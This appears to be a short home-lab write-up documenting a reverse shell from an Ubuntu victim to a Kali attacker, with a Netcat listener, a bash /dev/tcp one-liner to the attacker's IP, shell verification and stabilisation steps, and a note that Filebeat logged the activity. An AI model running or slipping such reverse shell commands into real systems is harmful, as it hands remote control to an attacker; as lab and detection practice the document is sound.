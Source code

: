 # Reverse Shell attack Documenation

#Goal
Creating a simulate initial foothold by creating a reverse shell from the 
victim machine to the attackers Kali Linux machine 

# Environment

- Attacker: Kali Linux
- Victim: Ubunto Server
- Attackers IP: 192.168.1.4
- Victim IP: 192.168.1.32
- Port: 4444

# Step by step Execution

### 1. Listener Setup(attacker setup)

First, i opened a Netcat listener on the attacker setup wating from a incoming connection
from the Victim set up.
-----------------------
nc -Lvnp 4444
-----------------------

### 2. Triggering the reverse shell(Victim Setup)

On the victim machine, i have crafted a one-liner to start the reverse shell.
when ran correctly the shell session should open in the attackers side.

-----------------------
bash -i >& /dev/tcp/192.168.1.4/4444 0>&1
-----------------------

### 3. Shell Verification

Had to confirmed i had access by running the following command:
-----------------------
whoami
id
hostname
-----------------------

## 4. Shell Stabilization

The raw reverse shell got unstable, inputs were starting to lag and started to show 
all inputs in caps. Fixed it by running this command:
------------------------
export TERM=xterm
------------------------
Then procedded to close the terminal and started to re-did everything untill i got back
up to the reverse prompt


# Outcome
 - Shell was establised and stabilized
 - The Vicim system responded well after fixing the instable reverse shell
 - Filebeat(on Victim setup) was logging everything


# Notes
- This attack assumes the attacker has a way to execute a command on the victum
- The reverse command can be blocked off by firewalls if the ports were filiterd.

